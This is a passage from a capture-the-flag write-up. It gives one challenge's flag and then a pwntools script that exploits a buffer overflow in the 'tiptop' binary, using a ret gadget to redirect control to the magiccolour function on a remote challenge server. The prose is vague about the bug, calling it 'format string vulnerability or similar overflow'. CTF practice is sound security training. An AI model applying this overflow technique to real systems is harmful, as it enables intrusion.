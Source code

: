 ```python
```

**Flag**: HTB{L3NGTH_D0E5NT_MATT3R_0R_D03S_1T?}

---

## TIP TOP PWN

This pwn challenge required exploiting a buffer overflow to hijack control flow. Analyzing the `tiptop` binary, I identified a format string vulnerability or similar overflow where I could overwrite the return address. My goal was to call the `magiccolour` function.

Here's the `pwntools` exploit script I used:



```python
from pwn import *

# Load the ELF binary and set context
elf = context.binary = ELF('./tiptop')
context.terminal = ['kitty', '-e']  # Change this if you use a different terminal emulator

# GDB debugging script: set breakpoints at main and magic_menu
gdb_script = '''
b *main
b *magic_menu
'''

# Set up process based on execution context
if args.REMOTE:
    p = remote('4.240.104.200', 6974)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=gdb_script)
else:
    p = process(elf.path)

# ========== Exploit Details ========== #

# Buffer overflow: Overflow 72 bytes to reach return address
# Add a 'ret' instruction to align the stack (needed on some systems for ROP)
ret_gadget = 0x401016

# Target function we want to call
target_function = elf.sym['magiccolour']

# Construct payload: padding + ret + target address
payload = b'A' * 72 + p64(ret_gadget) + p64(target_function)

# Interact with the menu and trigger the overflow
p.recvuntil(b'5. Orange\n')     # Wait until menu options are printed
p.sendline(b'4')                # Choose option 4 to reach the vulnerable code path
p.sendline(payload)            # Send our crafted payload

# Get interactive shell or output
p.interactive()

```

---